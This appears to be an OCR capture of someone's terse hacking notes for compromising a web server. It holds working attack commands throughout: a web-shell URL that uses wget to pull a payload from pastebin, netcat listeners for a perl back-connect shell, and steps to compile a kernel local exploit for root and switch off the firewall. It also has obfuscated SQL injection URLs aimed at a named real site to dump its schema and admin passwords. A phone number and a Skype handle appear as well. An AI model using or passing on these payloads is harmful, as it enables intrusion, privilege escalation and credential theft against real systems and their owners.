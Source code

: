 //get current version 
uname -a 

pivoting

===> Routing
Shell ==>
C99
404


http://192.168.0.123/test/bd.php
?cmd=wget https://pastebin.com/raw/yqdVDNFw -O shellAA.php

//open port on client
nc -lvp 44444

//
http://192.168.0.123/test/shellTT.php

from that Back-connect [perl]
==> enter client ip address and open port


3.13.0 local exploit

to check perl have or not
perl -v

nc -lvp 44444

after connect 


https://www.exploit-db.com/exploits/25444/ //2.6.32 exploit
upload  3.13.0 local exploit c file and compile it to get root access


if perl shell can't try with
4040 shell

if firewall is on have to close firewall
serverworld
systemctl 

try with 
php back connect shell

if permission denied


959950962640

skype account
1621986@Aung


//Found the site
http://studentvote.ca/2011/results/index.php?id=-1%20/*!50000UNION*/%20SELECT%201111,22222,(select%20(@x)%20from%20(select%20(@x:=0x00),%20(select%20(0)%20from%20(information_schema.columns)%20where%20(table_schema!=0x696e666f726d6174696f6e5f736368656d61)%20and%20(0x00)%20in%20(@x:=/*!50000concat*/(@x,0x3c62723e,table_schema,0x272d2d3e27,table_name,0x272d2d3e27,column_name))))x),444,555,666--+
http://studentvote.ca/2011/results/index.php?id=-1 /*!50000UNION*/ SELECT 1111,22222,/*!50000Group_cOncat(admin,'==>',password,'<br/>')*/ ,444,555,666 from admin--+
http://studentvote.ca/2011/results/index.php?id=-1 /*!50000UNION*/ SELECT 1111,22222,/*!50000Group_cOncat(admin,'==>',password,'<br/>')*/ ,444,555,666 from admin--+
